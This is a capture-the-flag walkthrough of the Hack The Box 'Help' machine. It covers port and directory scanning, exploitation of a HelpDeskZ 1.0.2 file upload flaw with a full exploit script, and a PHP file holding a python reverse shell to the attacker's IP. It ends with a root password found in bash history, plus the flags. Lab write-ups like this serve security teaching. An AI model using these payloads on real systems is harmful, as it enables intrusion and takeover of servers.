



## PART 1 : Initial Recon

```console
nmap --min-rate 700 -p- -v 10.10.10.121
```
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```
```console
nmap -oN help.nmap -p22,80,3000 -sC -sV -v 10.10.10.121
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## PART 2 : Port Enumeration

1. Open http://10.10.10.121 (default: __port 80__)
   - Landing Page: 
   
     
     
     __NOTE(S)__:
     - Opening tha base directory leads you to an __Apache2 Default Page__
     - There might be some hidden directories
     
   - Run `gobuster`:
     ```console
     gobuster -u http://10.10.10.121/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
     # /support (Status: 301)
     ```
   - Landing Page: 
   
     

     __NOTE(S)__: 
     - There is a [HelpDeskZ](https://github.com/evolutionscript/HelpDeskZ-1.0) web service on __*/support*__

2. Open http://10.10.10.121:3000
   ```console
   curl http://10.10.10.121:3000
   ```
   ```JSON
   {"message":"Hi Shiv, To get access please find the credentials with given query"}
   ```
   __NOTE(S)__:
   - Running `gobuster` doesn't seem to yield anything useful.

---

## PART 3 : Generate User Shell

1. Examine HelpDeskZ's ticketing service:
   - __*submit_ticket_controller.php*__ from [HelpDeskZ's git repo](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php):
     ```PHP
     ...

     if(!isset($error_msg) && $settings['ticket_attachment']==1){
	     $uploaddir = UPLOAD_DIR.'tickets/';	
	     if($_FILES['attachment']['error'] == 0){
		     $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
		     $filename = md5($_FILES['attachment']['name'].time()).".".$ext;
		     $fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
		     $uploadedfile = $uploaddir.$filename;
		     if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
			     $show_step2 = true;
			     $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
		     }else{
			     $fileverification = verifyAttachment($_FILES['attachment']);
			     switch($fileverification['msg_code']){
				     case '1':
				     $show_step2 = true;
				     $error_msg = $LANG['INVALID_FILE_EXTENSION'];
				     break;
				     case '2':
				     $show_step2 = true;
				     $error_msg = $LANG['FILE_NOT_ALLOWED'];
				     break;
				     case '3':
				     $show_step2 = true;
				     $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				     break;
			     }
		     }
	     }	
     }

     ...
     ```
   __NOTE(S)__:
   - The ticketing service allows file attachments
   - The file is uploaded to __UPLOAD_DIR/tickets/__
   - The filename is changed:
     - A UNIX timestamp is concatenated at the end of the filename
     - The new filename is converted to an MD5 hash
     - The extension is preserved
   - The file is moved to the upload directory before verifying the attachment

2. Exploit HelpDeskZ's ticketing service:
   1. Search and download available exploits:
      ```console
      searchsploit helpdeskz
      # HelpDeskZ 1.0.2 - Arbitrary File Upload                                        | exploits/php/webapps/40300.py
      # HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download | exploits/php/webapps/41200.py

      searchsploit -m exploits/php/webapps/40300.py
      #   Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload
      #       URL: https://www.exploit-db.com/exploits/40300
      #      Path: /usr/share/exploitdb/exploits/php/webapps/40300.py
      # File Type: troff or preprocessor input, ASCII text, with CRLF line terminators
      ```
      - __*40300.py*__
        ```py
        ...
        
        import hashlib
        import time
        import sys
        import requests

        print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

        if len(sys.argv) < 3:
            print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
            sys.exit(1)

        helpdeskzBaseUrl = sys.argv[1]
        fileName = sys.argv[2]

        currentTime = int(time.time())

        for x in range(0, 300):
            plaintext = fileName + str(currentTime - x)
            md5hash = hashlib.md5(plaintext).hexdigest()

            url = helpdeskzBaseUrl+md5hash+'.php'
            response = requests.head(url)
            if response.status_code == 200:
                print "found!"
                print url
                sys.exit(0)

        print "Sorry, I did not find anything"
        ```
      __NOTE(S)__:
      - It searches for your uploaded file.
      - A UNIX timestamp up to five minutes ago is checked.

   2. Find the ticketing service's upload directory:
      ```console
      gobuster -u http://10.10.10.121/support -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /images (Status: 301)
      # /index.php (Status: 200)
      # /uploads (Status: 301)
      # /css (Status: 301)
      # /includes (Status: 301)
      # /js (Status: 301)

      gobuster -u http://10.10.10.121/support/uploads -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /index.php (Status: 302)
      # /articles (Status: 301)
      # /tickets (Status: 301)
      ```
   3. Exploit HelpDeskZ's ticketing service:
      1. Fill-up all the required fields
      2. Attach payload (__*shell.php*__):
         ```PHP
         <?php

           echo system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.99\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");

         ?>
         ```
      3. Enter CAPTCHA
      4. Click "Submit"
      5. Run the python exploit (__*40300.py*__):
         ```console
         python ./40300.py http://10.10.10.121/support/uploads/tickets/ shell.php
         # Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
         # found!
         # http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
         ```
   4. Set-up the reverse shell:
      - Local terminal:
        ```console
        nc -lvp 4444    
        ```
      - Another local terminal: 
        ```console
        curl http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
        ```
      - While inside the reverse shell:
        ```console
        python -c 'import pty; pty.spawn("/bin/bash")'

        id
        # uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

        cd ~
        cat user.txt
        # bb8a7b36bdce0c61ccebaa173ef946af
        ```

---

## PART 4 : Privilege Escalation (help -> root)

1. Check files in the /home/help (__~/__) directory:
   ```console
   cat .bash_history
   # ...
   # su
   # su
   # rOOTmEoRdIE
   # su
   # ...
   
   su root
   # Password: RootMeOrDie
   
   id
   # uid=0(root) gid=0(root) groups=0(root)
 
   cat /root/root.txt
   # b7fe6082dcdf0c1b1e02ab0d9daddb98
   ```
   __NOTE(S)__:
   - There seems to be an apparent attempt to use `su`
   - "__rOOTmEoRdIE__" doesn't work to authenticate __root__
     - Maybe it was entered with CAPS LOCK on
     - "__RootMeOrDie__" works
